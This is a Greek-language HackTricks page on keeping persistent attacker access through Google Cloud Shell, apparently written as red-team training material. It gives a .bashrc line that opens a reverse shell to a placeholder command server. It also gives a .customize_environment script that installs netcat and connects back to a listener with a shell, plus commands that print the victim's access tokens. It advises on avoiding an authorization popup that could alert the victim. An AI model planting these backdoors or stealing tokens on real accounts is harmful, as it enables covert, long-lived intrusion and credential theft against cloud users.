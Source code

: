 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) σας παρέχει πρόσβαση γραμμής εντολών στους πόρους σας στο cloud απευθείας από τον περιηγητή σας χωρίς κανένα σχετικό κόστος.

Μπορείτε να αποκτήσετε πρόσβαση στο Cloud Shell της Google από την **ιστοσελίδα κονσόλας** ή εκτελώντας **`gcloud cloud-shell ssh`**.

Αυτή η κονσόλα έχει κάποιες ενδιαφέρουσες δυνατότητες για τους επιτιθέμενους:

1. **Οποιοσδήποτε χρήστης της Google με πρόσβαση στο Google Cloud** έχει πρόσβαση σε μια πλήρως αυθεντικοποιημένη περίπτωση Cloud Shell (Οι Λογαριασμοί Υπηρεσιών μπορούν, ακόμη και αν είναι Ιδιοκτήτες της οργάνωσης).
2. Η εν λόγω περίπτωση θα **διατηρήσει τον κατάλογο αρχικής της για τουλάχιστον 120 ημέρες** αν δεν συμβεί καμία δραστηριότητα.
3. Δεν υπάρχουν **δυνατότητες για μια οργάνωση να παρακολουθεί** τη δραστηριότητα αυτής της περίπτωσης.

Αυτό σημαίνει βασικά ότι ένας επιτιθέμενος μπορεί να τοποθετήσει μια πίσω πόρτα στον κατάλογο αρχικής του χρήστη και όσο ο χρήστης συνδέεται στο GC Shell τουλάχιστον κάθε 120 ημέρες, η πίσω πόρτα θα επιβιώσει και ο επιτιθέμενος θα αποκτά πρόσβαση σε ένα shell κάθε φορά που εκτελείται απλά κάνοντας:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Υπάρχει ένα άλλο αρχείο στον φάκελο του χρήστη που ονομάζεται **`.customize_environment`** που, αν υπάρχει, θα **εκτελείται κάθε φορά** που ο χρήστης έχει πρόσβαση στο **cloud shell** (όπως στην προηγούμενη τεχνική). Απλώς εισάγετε την προηγούμενη πίσω πόρτα ή μία όπως η παρακάτω για να διατηρήσετε την επιμονή όσο ο χρήστης χρησιμοποιεί "συχνά" το cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Είναι σημαντικό να σημειωθεί ότι την **πρώτη φορά που εκτελείται μια ενέργεια που απαιτεί αυθεντικοποίηση**, εμφανίζεται ένα παράθυρο εξουσιοδότησης στον περιηγητή του χρήστη. Αυτό το παράθυρο πρέπει να γίνει αποδεκτό πριν μπορέσει να εκτελεστεί η εντολή. Εάν εμφανιστεί ένα απροσδόκητο παράθυρο, μπορεί να προκαλέσει υποψίες και ενδεχομένως να θέσει σε κίνδυνο τη μέθοδο επιμονής που χρησιμοποιείται.
{% endhint %}

Αυτό είναι το παράθυρο που προκύπτει από την εκτέλεση του `gcloud projects list` από το cloud shell (ως επιτιθέμενος) που προβάλλεται στη συνεδρία του περιηγητή του χρήστη:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ωστόσο, εάν ο χρήστης έχει χρησιμοποιήσει ενεργά το cloudshell, το παράθυρο δεν θα εμφανιστεί και μπορείτε να **συγκεντρώσετε τα tokens του χρήστη με**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Πώς καθορίζεται η σύνδεση SSH

Βασικά, αυτές οι 3 κλήσεις API χρησιμοποιούνται:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (θα σας κάνει να προσθέσετε το δημόσιο κλειδί που δημιουργήσατε τοπικά)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (θα σας κάνει να ξεκινήσετε την παρουσία)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (θα σας πει τη διεύθυνση ip του google cloud shell)

Αλλά μπορείτε να βρείτε περισσότερες πληροφορίες στο [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Αναφορές

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
